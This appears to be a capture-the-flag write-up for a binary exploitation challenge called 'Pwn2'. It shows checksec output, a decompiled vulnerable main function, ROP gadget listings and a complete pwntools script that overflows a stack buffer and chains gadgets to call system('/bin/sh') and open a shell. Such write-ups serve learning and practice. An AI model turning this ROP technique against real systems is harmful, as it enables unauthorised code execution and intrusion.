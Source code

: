 ```yaml
---
title: Pwn2
date: 2023-06-10
tags:
  - pwn
---
```


## Description of the challenge

There is no win function this time! 

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE.

```
$ checksec pwn2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols	  No	0		1		pwn2
```


When we open the binary in Ghidra, we are greeted with the following main function:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(input,0x19,stdin);
  puts("Wrong Answer! I\'ll give you another chance!\n");
  puts("Would you like a flag?");
  fgets(local_28,0x60,stdin);
  system("cat fake_flag.txt");
  return;
}
```
We notice the global variable ``input`` and local variable ``local_28``. The input is passed to two different variables. Again a buffer overflow on ``local_28``, but this time with no win function, like the descriptions says.

The idea would be maybe to write ``/bin/sh`` in the data section, through the ``input`` variable, and then use it in a ROP chain to call ``system``, which is imported in the binary already.

So let's ROP it.
```
$ ROPgadget --binary pwn2 | grep ret
0x000000000040110b : add bh, bh ; loopne 0x401175 ; nop ; ret
0x0000000000401228 : add byte ptr [rax - 0x77], cl ; ret 0x19be
0x00000000004010dc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010de : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117b : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040110a : add dil, dil ; loopne 0x401175 ; nop ; ret
0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401177 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004010e3 : cli ; ret
0x000000000040128b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004010e0 : endbr64 ; ret
0x0000000000401286 : leave ; ret
0x000000000040110d : loopne 0x401175 ; nop ; ret
0x0000000000401176 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401285 : nop ; leave ; ret
0x00000000004011fa : nop ; pop rbp ; ret
0x000000000040110f : nop ; ret
0x0000000000401178 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040117d : pop rbp ; ret
0x0000000000401196 : pop rdi ; ret
0x000000000040101a : ret
0x000000000040122b : ret 0x19be
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040128d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040128c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. So the full exploit is simply:

```py
#!/usr/bin/env python3

from pwn import *

target = remote("challs.n00bzunit3d.xyz", 61223)
#target = process("./pwn2")

target.sendline(b"/bin/sh\x00") # send /bin/sh for first input

sys_addr = p64(0x00401080) # system address
pop_rdi_gadget = p64(0x0000000000401196) # pop rdi ; ret address
ret_gadget = p64(0x000000000040101a) # ret gadget - stack needs to be 16-bytes aligned for system()
sh_addr = p64(0x00404090) # /bin/sh address (the global input variable's address)

payload = b"a" * 0x28 + ret_gadget + pop_rdi_gadget + sh_addr + sys_addr

#gdb.attach(target)
target.sendline(payload)
target.interactive()
```

Notice the ``ret`` gadget, used as a ``NOP`` to align the stack to 16 bytes, which is a necessary precondition to calling ``system()``. Failing to do so will result in a segmentation fault.

We run the exploit:
```
$ ./solve.py 
[+] Starting local process './pwn2': pid 25704
[*] Switching to interactive mode
Would you like a flag?
Wrong Answer! I'll give you another chance!

Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```

Easy shells.
